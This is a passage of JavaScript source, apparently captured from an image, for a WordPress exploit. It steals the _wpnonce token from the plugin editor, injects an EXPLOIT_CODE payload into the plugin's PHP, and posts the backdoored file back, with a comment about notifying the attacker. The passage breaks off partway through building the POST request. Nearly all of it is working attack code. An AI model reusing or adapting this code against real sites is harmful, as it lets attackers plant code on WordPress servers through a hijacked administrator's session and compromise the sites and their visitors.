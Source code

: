         req = getXMLHttpRequestObject();
        req.onreadystatechange = function() {
            if (req.readyState == 4 && req.status == 200) {
                var res = /name="_wpnonce"\svalue=\"[a-z0-9]{10}\"/.exec(req.responseText);
                if (res.length == 1) {
                    nonce =  /[a-z0-9]{10}/.exec(res[0]);
                } else { // The sites not available. Maybe the plugin is not installed?!
                    nonce = null;

                }
                modify_plugin(req.responseText, nonce);
            }
        }
        req.open("GET", PLUGIN_EDIT_URL, true);
        req.send();
    }

    /* Modify the plugin with malicous code with plugin editor */
    function modify_plugin(responseText, nonce) {
        // Get the plugin code
        // On each wordpress plugin edit site, there's just one textarea tag.
        // The plugin code itself lies between the textarea tags.
        // These regexes aren't really good.
        var startIndex = responseText.match(/<textarea.*?name="newcontent".*?>/);
        var stopIndex = responseText.match(/<\/textarea>/);
        pluginCode = responseText.substring(startIndex.index+startIndex[0].length, stopIndex.index);

        // add our exploit code at the beginning of the plugin after the "// Stop direct call" comment.
        if (/((\/){2}\sStop\sdirect\scall)/.test(pluginCode)) {
            pluginCode = pluginCode.replace(/((\/){2}\sStop\sdirect\scall)/, "$1" + EXPLOIT_CODE);
        } else {
            // Let's go for the first line after the obligatory wp plugin comment and lets use the closing comment
            // characters */ as needle as a fallback.
            pluginCode = pluginCode.replace(/^(\*\/)/m, "$1" + "\n" + EXPLOIT_CODE);
        }

        // We need to consider that the plugin code in this state is making use of Character entity references
        // for all html meta characters like " ' < > & \ to avoid them of being interepreted as markup.
        // We need to replace them with their "real" characters, before we send the plugin as post data.
        pluginCode = removeCharEntityReferences(pluginCode);

        // Ready to build our POST request
        preq = getXMLHttpRequestObject();
        preq.onload = function () {
            if (preq.readyState == 4 && preq.status == 200) {
                var successPattern = /File\sedited\ssuccessfully./;
                if (successPattern.test(preq.responseText))
                    alert("Done.");
                    // Notify the attacker that the exploit has been spawned.
                else
                    alert("Nope.");
            }
        };
        preq.open("POST", PLUGIN_EDITOR_URL, true);
        preq.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
